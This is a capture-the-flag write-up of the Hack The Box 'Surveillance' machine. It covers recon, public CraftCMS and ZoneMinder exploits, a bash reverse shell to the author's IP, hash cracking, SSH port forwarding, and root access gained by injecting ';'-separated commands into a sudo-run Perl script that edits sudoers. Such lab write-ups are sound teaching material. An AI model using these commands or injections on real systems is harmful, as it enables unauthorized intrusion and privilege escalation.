









# Surveillance

Surveillance is a Medium Linux-based box released in December of 2023. I found it quite enjoyable and straightforward, without many rabbit holes, and I think it does an excellent job introducing new concepts. I would highly recommend it as someone's first Medium-level box. While there are certainly some challenging steps, it doesn't ever stray too far from its intended path.

This writeup will cover my process, including some things that I tried and failed. No box is as easy to crack as the writeups make it seem, so don't get down if this box takes you a while! Hopefully this step-by-step guide will help you if you get stuck, and if not, then hopefully it is an interesting read. Let's get to it!


# Recon

As always, we'll start off by making a directory for our files. `mkdir ~/HTB/Surveillance && cd ~/HTB/Surveillance` will create the directory and move me into it. Throughout the hacking process, I will be saving notes, interesting files, and scan results to this direcotry.

Next up, let's run a basic TCP nmap scan with `nmap -T5 -p- -vv -sVC -A <IP> -oN nmap_tcp`. This reveals a very small attack surface, as it outputs only the following two ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The ssh version seems relatively up-to-date, so our best bet is the website. I added `<IP> surveillance.htb` to /etc/hosts so that we can access the website, and browsed to the landing page.

Before starting to look manually, let's start up a feroxbuster scan to find any hidden directories. If you are unfamiliar with feroxbuster, it is very similar to gobuster and ffuf, but it is written in Rust and runs _much_ faster, alongside having a nicer UI (in my opinion). `feroxbuster -u http://surveillance.htb -A --auto-tune -C 404,502,503 -o feroxbuster_raft_medium.`

Here's a brief explanation of what this does:
- -u is the target URL.
- -A sets a random user-agent. This is not strictly necessary, but I have found it useful in some cases.
- --auto-tune is a very useful flag that gives feroxbuster the ability to speed up or slow down the scan based on feedback.
- -C filters out status codes that aren't relevant, such as errors or nonexistent pages.
- -o specifies an output file to parse the data.
- I do not specify a wordlist, as feroxbuster defaults to my go-to, raft-medium-directories.txt.

I find it useful to sort the output, so I ran `awk '{for(i=1;i<=NF;i++) if($i~/^http/) {print $i, $0; next}}' feroxbuster_raft_medium | sort`. This command is a bit complicated and took some research to figure out. Without getting too off-topic, it copies each found URL to the beginning of its line, then sorts them alphabetically. This makes it easier to read, as the output is sorted by directory.

```
http://surveillance.htb/ 200      GET      475l     1185w    16230c http://surveillance.htb/
http://surveillance.htb/ 200      GET      475l     1185w    16230c http://surveillance.htb/
http://surveillance.htb/admin 302      GET        0l        0w        0c http://surveillance.htb/admin => http://surveillance.htb/admin/login
http://surveillance.htb/admin 302      GET        0l        0w        0c http://surveillance.htb/admin => http://surveillance.htb/admin/login
http://surveillance.htb/css 301      GET        7l       12w      178c http://surveillance.htb/css => http://surveillance.htb/css/
http://surveillance.htb/images 301      GET        7l       12w      178c http://surveillance.htb/images => http://surveillance.htb/images/
http://surveillance.htb/images 301      GET        7l       12w      178c http://surveillance.htb/images => http://surveillance.htb/images/
http://surveillance.htb/images/s1.png 200      GET      109l      602w    50641c http://surveillance.htb/images/s1.png
http://surveillance.htb/img 301      GET        7l       12w      178c http://surveillance.htb/img => http://surveillance.htb/img/
http://surveillance.htb/img 301      GET        7l       12w      178c http://surveillance.htb/img => http://surveillance.htb/img/
http://surveillance.htb/index 200      GET        1l        0w        1c http://surveillance.htb/index
http://surveillance.htb/js 301      GET        7l       12w      178c http://surveillance.htb/js => http://surveillance.htb/js/
http://surveillance.htb/logout 302      GET        0l        0w        0c http://surveillance.htb/logout => http://surveillance.htb/
http://surveillance.htb/logout 302      GET        0l        0w        0c http://surveillance.htb/logout => http://surveillance.htb/
```

This doesn't give us much to work with, and looking through the found directories doesn't yield much. /admin/login is an administrative login panel, but after manually running some basic password combinations (admin:admin, admin:root, surveillance:password, etc.) I decided to look elsewhere. The landing page mentions that it uses CraftCMS, and hovering over the link reveals the version: 4.4.14!



A quick google search for "CraftCMS 4.4 exploit" finds one right away! We'll clone the repository and download requirements with `git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892 && pip3 install requests`.


# Exploiting outdated software

Giving the exploit a read reveals what it is doing:

- First, it attempts to execute phpinfo() to ensure that the CMS is vulnerable.
- Next, it creates and uploads a reverse shell to the site.
- If it succeeds, we will be served with a shell. It is worth noting that we can also execute commands from the URL at \<IP>/shell.php?cmd=\<command>

Running `python3 craft-cms.py http://surveillance.htb` gives us a shell as www-data! I personally didn't love this shell, so I opened a netcat listener on my Kali Linux host with `nc -lvnp 9995`, grabbed a bash reverse shell command from [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell), added my IP and port number, and ran the command: `bash -c 'bash -i >& /dev/tcp/10.10.16.16/9995 0>&1'`. I'm picky, so I decided to upgrade this reverse shell too:

```
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm-256color
^Z
stty -raw echo; fg
reset
```

This gave me a nice, fully interactive shell. Unfortunately, the user flag is nowhere to be found.


# Finding the user flag

 It looks like the flag must be in another user's home directory: either matthew or zoneminder. I tried some basic enumeration by checking sudo -l, looking for readable home directories, and running linpeas, but to no avail. I ended up going through files in the web directory and grepping them for usernames, passwords, and other relevant strings.

Eventually, I ended up in ~/html/craft/storage/backups, which contained a single SQL zip file. Running `unzip <file>` followed by `grep -i 'matthew\|zoneminder\|root\|password' <file>` (which is an case-insensitive search for the parameters given) reveals an interesting line:

```
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

It appears to be a SHA256 hash, which hashid seems to agree with.



We could run this through johntheripper or hashcat, but I always like to check [hashes.com](https://hashes.com/en/decrypt/hash) first, as it tends to be quicker for easy hashes. Sure enough, it gives us Matthew's password!



This is for a local mysql database, but we can check to see if they reused it for their login as well! On the attacking machine, I ran `ssh matthew@<IP>` with the recently discovered password, and it worked! Let's grab the user flag and work on escalating to root!




# Horizontal Escalation

This part stumped me for quite a bit. No SUIDs, no sudo access, nothing worthwhile in mysql, and seemingly no useful files. I ran linpeas again, and decided to dive a bit further in to the results.

If you are unfamiliar with linpeas, it is an excellent script that searches for potential privilege escalation points, outlining interesting spots in gold or red, depending on the severity. It can be installed with `sudo apt install peass` on your attacking machine. Then, run `linpeas` to traverse to the directory, and open up an http server with `python -m http.server <port>`. Then, on the target machine, run `cd /tmp && wget http://<attacking_ip>:<port>/linpeas.sh`. Follow this up with `chmod 777 linpeas.sh && ./linpeas.sh`. It will take a bit to run, but it's worth it. As I parse the file, I like to copy out anything potentially useful to avoid having to run it again.

After looking through each point of interest, I found two spots that stood out to me. Firstly, /etc/share/zoneminder/www/api/app/Config/database.php seems to hold some sort of zoneminder credential. It did not work to switch users, but the presentation of the credentials, coupled with the path, suggested that zoneminder was a service of some sort. Additionally, linpeas noticed that there were _four_ ports open, rather than the three we have interacted with so far. We have seen SSH (22), HTTP (80), and MySQL (3306), but it appeared that there was another service running on port 8080, which is often used for websites.

I should note that while I found this in linpeas, it can also be discovered by running netstat -tunl, which shows open listeners. I have added this to my methodology, as it seems quite useful for uncovering internal services that may not be as secure as public-facing ones.

Running `curl http://localhost:8080` confirms that something is being hosted internally. I had to do some research here, and found that the best course of action involved SSH Local Port Forwarding. The command looks like `ssh -L <local_port>:<atttacking_IP>:8080 matthew@<target_IP>`. This command connects to ssh as matthew, and forwards requests to \<attacking_IP>:\<local_port>. This means that we can browse to the local website! I used 9990 as my local port, so I browsed to http://localhost:9990, and was greeted with the ZoneMinder login page!



I tried to use the password mentioned by linpeas with various usernames, but to no avail. We can get the version number from our ssh session by running `apt list --installed | grep zoneminder`, which reveals that the server is running ZoneMinder 1.36.32. A quick google search one again reveals an unauthenticated RCE exploit for this version! We can download this one to our attacking machine with `git clone https://github.com/rvizx/CVE-2023-26035 && cd cve-2023-26035`. As always, it is good practice to read through the exploit and understand what it is doing. This exploit does the following:

- Takes user input with -t (for the target url), -ip (for the local IP), and -p (for the listener port)
- Creates a bash reverse shell and base64 encodes it to avoid filtering
- Creates a payload that echoes the string, decodes it, and executes it.
- Checks if it can communicate with the target
- Posts the payload to http://target/index.php

I opened up a netcat listener on port 9090 (`nc -lvnp 9090`) and executed the command with `python3 exploit.py -t http://localhost:9990 -ip <attacking_IP> -p 9090`. In my situation, the exploit script informed me that the shell had failed, when in reality it had not. I now have access as zoneminder! As always, the first thing I do is upgrade my shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
^Z
stty -raw echo; fg
reset
```

The first enumeration command I run, `sudo -l`, results in the following:



This may look somewhat confusing if you are unfamiliar with regexes. What this means is that the user zoneminder can execute files starting with /usr/bin/zm, followed by any number of letters, and ending in .pl (the extension for Perl programs). This means we could execute a file called /usr/bin/zmedit.pl, but no /usr/bin/zm_edit.pl, as the underscore is not a letter. We can check which of these files exist with `ls -l /usr/bin/zm[a-zA-Z]*.pl`, returning 18 files! Our best shot is probably here, so let's dive in!

I went through each of the scripts looking for potential injections. My first thought was to find a script that calls a different script that I can edit. This would allow me to change the command, say to '/bin/bash', and execute commands as root. Unfortunately, I didn't have much luck here either manually or with grep '.sh'

My next step was to look at the usage of each script in hopes that they implicitly trusted my input, executing it in a command. This was done via a combination of `./<script.pl> -h`, manually trying inputs to see what the output looked like, and reading through the code. This was a bit tedious. but I eventually found something interesting in zmupdate.pl:



This command is used to update zoneminder. The -v flag signals the version to use. I am using 1, which is a downgrade, to ensure the command executes. -u is the username that the script will attempt to connect to MySQL with. What is particularly interesting are the two lines at the end:

```
Output:
Command 'mysql -uroot -p'ZoneMinderPassword2023' -hlocalhost zm < /usr/share/zoneminder/db/zm_update-1.26.1.sql' exited with status: 1
```

This indicates that our flag `-u root` is placed directly into a command! That means if we were to run the command as sudo, we could potentially inject malicious commands! Let's give that command another try, but attempt to inject `whoami`!

```
sudo /usr/bin/zmupdate.pl -v 1 -u ';whoami;'
...
Output: root
Command 'mysql -u;whoami; -p'ZoneMinderPassword2023' -hlocalhost zm < /usr/share/zoneminder/db/zm_update-1.26.1.sql' exited with status: 127
```

Our payload, `-u ';whoami;'` successfully executed! This is because the semicolon character signals to bash to start a new command. If you were to run echo 'hi';echo 'bye', it would execute both commands. What we have done is cut the mysql command into two parts (`mysql -u` and `-pZoneMinder...') with our command in the middle! We can tell that it is working, since the output field, which was empty earlier, shows the output of our command!

Now that we have command injection on root, there are a couple directions we could go. We could simply grab the root flag, and call it a day, but I prefer to go the extra mile. We could spawn a reverse shell, or, as I decided, we could add full sudo privileges for zoneminder, allowing us to switch to root whenever we want. I did this by injecting `echo "echo zoneminder ALL=(ALL) NOPASSWD:ALL" | tee -a /etc/sudoers.d/zoneminder` into our command. This appends zoneminder to sudoers, the group of users who can run sudo, as being able to run all commands without a password.

```sudo /usr/bin/zmupdate.pl -v 1 -u ';echo "zoneminder ALL=(ALL) NOPASSWD:ALL" | tee -a /etc/sudoers.d/zoneminder;'
...
Output: zoneminder ALL=(ALL) NOPASSWD:ALL | tee -a /etc/sudoers.d/zoneminder
Command 'mysql -u;echo "zoneminder ALL=(ALL) NOPASSWD:ALL | tee -a /etc/sudoers.d/zoneminder"; -p'ZoneMinderPassword2023' -hlocalhost zm < /usr/share/zoneminder/db/zm_update-1.26.1.sql' exited with status: 127
```

It looks like the command executed as expected, and if we run sudo -l again, we will notice a new line:



We did it! Let's run `sudo su` to switch to root, and grab the flag.




# Conclusion

This was an incredibly fun box to crack. The process of exploiting the webserver software was fairly simple, but the privilege escalation steps took some thinking, and I even found some steps to add to my methodology! Trying to reverse engineer the zoneminder scripts was a bit tiring, but finding the command injection was incredibly rewarding! This is one of my favorite boxes to date, and I'm looking forward to finding more like it.

Thank you for reading! Good luck in your future boxes, and happy hacking!